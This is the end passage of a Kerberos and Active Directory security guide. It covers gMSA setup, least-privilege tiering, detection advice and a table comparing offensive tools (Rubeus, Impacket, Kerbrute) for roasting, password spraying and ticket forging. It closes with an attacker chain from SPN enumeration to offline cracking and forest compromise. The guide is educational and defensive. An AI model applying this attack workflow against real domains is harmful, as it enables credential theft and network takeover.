Install-ADServiceAccount -Identity "svc_sql_gmsa"
Test-ADServiceAccount -Identity "svc_sql_gmsa"
```

---

# 46. Least Privilege Architecture for Service Accounts

A service account must never be granted domain-wide administrative credentials.

```text
BAD ARCHITECTURE (High Risk):
svc_sql  -->  MemberOf: Domain Admins, Enterprise Admins, Schema Admins

GOOD ARCHITECTURE (Least Privilege / Tiered):
svc_sql  -->  MemberOf: Domain Users
              Local Administrator on: SQL01.corp.local ONLY
              Database Role: db_owner on FinanceDB ONLY
```

### Implement Active Directory Tiering:
* **Tier 0:** Domain Controllers, PKI, Identity Services (`krbtgt`, Domain Admins).
* **Tier 1:** Enterprise Servers (SQL, Web, Application Servers).
* **Tier 2:** End-User Workstations and Devices.

Service accounts operating at Tier 1 must never possess logon rights or administrative privileges at Tier 0.

---

# 47. Comparative Tool Matrix: Rubeus vs Impacket vs Kerbrute

| Feature / Capability | Rubeus | Impacket | Kerbrute |
| :--- | :---: | :---: | :---: |
| **Operating System** | Windows Native (.NET) | Linux / Python | Cross-Platform (Go) |
| **Execution Mode** | In-Memory (C2 / Assembly) | CLI Scripts | Single Standalone Binary |
| **Kerberoasting** | ⭐⭐⭐ (Full options, OPSEC, /spn) | ⭐⭐⭐ (`GetUserSPNs.py`) | ❌ (Not supported) |
| **AS-REP Roasting** | ⭐⭐⭐ (`asreproast`) | ⭐⭐⭐ (`GetNPUsers.py`) | ⭐ (Single user check) |
| **Pre-Auth User Enumeration** | ⭐ | ⭐⭐ | ⭐⭐⭐ (Fastest, zero lockout) |
| **Password Spraying** | ⭐⭐ | ⭐⭐ | ⭐⭐⭐ (High speed) |
| **Pass-the-Ticket (PtT)** | ⭐⭐⭐ (Direct session injection) | ⭐⭐ (SOCKS / ccache) | ❌ |
| **Ticket Forging (Golden/Silver)** | ⭐⭐⭐ | ⭐⭐⭐ (`ticketer.py`) | ❌ |
| **Delegation Abuse (S4U)** | ⭐⭐⭐ | ⭐⭐⭐ | ❌ |
| **Primary Use Case** | Windows Red Team / On-Host | Linux External / Kali Pivot | Initial Recon & Spraying |

---

# 48. The 15-Phase Kerberos Learning Roadmap



---

# 49. Advanced R&D Research Modules

For researchers preparing for certifications (**CRTP, CRTE, OSCP, eCPPT, CySA+**) or specialized SOC engineering roles, structure ongoing research into seven specialized domains:

* **Module A — Protocol Mechanics:** RFC 4120, ASN.1 structures, PAC validation, sub-session keys.
* **Module B — Windows Internals:** LSASS process memory architecture, SSPI security support providers, Kerberos SSP (`kerberos.dll`).
* **Module C — Credential Structures:** `.kirbi` (Windows LSA format) vs `.ccache` (MIT format), credential conversion, session keys.
* **Module D — Advanced Attack Vectors:** Overpass-the-Hash, S4U2Self, S4U2Proxy, Resource-Based Constrained Delegation (RBCD), Diamond Tickets.
* **Module E — Tool Mastery:** In-depth source code analysis of Impacket `GetUserSPNs.py` and Rubeus `Roast.cs`.
* **Module F — Detection Engineering:** Windows Event IDs 4768, 4769, 4771, Sysmon Event ID 10 (LSASS injection), Sigma rules, Microsoft Defender for Identity (MDI).
* **Module G — Defense in Depth:** Protected Users Security Group, Selective Authentication, Tiered Administrative Model, gMSA automation.

---

# 50. Official References & Authoritative Documentation

* [Microsoft Learn — Kerberos Authentication Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview) — Authoritative Windows architecture guide.
* [Microsoft Learn — setspn Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/setspn) — SPN management syntax.
* [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://datatracker.ietf.org/doc/html/rfc4120) — The official IETF protocol standard.
* [MITRE ATT&CK — Technique T1558.003: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/) — Threat landscape, detection strategies, and mitigation.
* [MITRE ATT&CK — Detection Strategy DET0157](https://attack.mitre.org/detectionstrategies/DET0157/) — Blue-team detection engineering benchmarks.
* [GhostPack/Rubeus Official Repository](https://github.com/GhostPack/Rubeus) — C# Kerberos research and toolset.
* [Fortra/Impacket Official Repository](https://github.com/fortra/impacket) — Python Active Directory protocol suite.
* [Impacket GetUserSPNs.py Source Code](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) — Reference implementation for LDAP search and ticket requests.
* [Kerbrute Official Repository](https://github.com/ropnop/kerbrute) — High-speed Kerberos enumeration tool.
* [NetExec Kerberos Documentation](https://github.com/Pennyw0rth/NetExec-Wiki/blob/main/getting-started/using-kerberos.md) — Kerberos authentication and cache usage.

---

# The Ultimate Kerberos Mental Model

If you remember only one conceptual framework when auditing, analyzing, or defending Active Directory, remember this:

```text
====================================================================================================
                                ACTIVE DIRECTORY KERBEROS ENGINE
====================================================================================================

      [ CLIENT ]                  [ DOMAIN CONTROLLER (KDC) ]               [ APPLICATION HOST ]
          |                                   |                                      |
          |-------- 1. AS-REQ --------------->|                                      |
          |<------- 2. AS-REP (TGT) ----------|                                      |
          |                                   |                                      |
          |-------- 3. TGS-REQ (SPN) -------->|                                      |
          |<------- 4. TGS-REP (Service Tkt) -|                                      |
          |                                                                          |
          |----------------------------- 5. AP-REQ (Service Ticket) ---------------->|
          |<---------------------------- 6. AP-REP (Mutual Auth - Optional) ---------|

====================================================================================================
                                  AUTHENTICATED ATTACKER VIEW
====================================================================================================

      Valid Domain Account
              │
              ▼
      Enumerate User SPNs (LDAP)
              │
              ▼
      Request Service Ticket (TGS-REQ)
              │
              ▼
      Extract Ticket Blob (TGS-REP)
              │
              ▼
      Offline Password Cracking (Hashcat 13100)
              │
              ▼
      Recovered Service Credentials
              │
              ▼
      Lateral Movement & Forest Compromise
====================================================================================================
```

> [!TIP]
> **The Key Takeaway:** Kerberos itself is not "broken" by Kerberoasting. The attack leverages a fundamental, designed capability of the protocol—requesting service tickets—and exploits weak, human-managed service account passwords combined with excessive privileges. 
> 
> Therefore, true defense is never just "blocking the tool." Resilient defense demands **Group Managed Service Accounts (gMSAs)**, **AES-only encryption**, **strict least privilege**, and **high-fidelity SIEM detection engineering on Event ID 4769**.
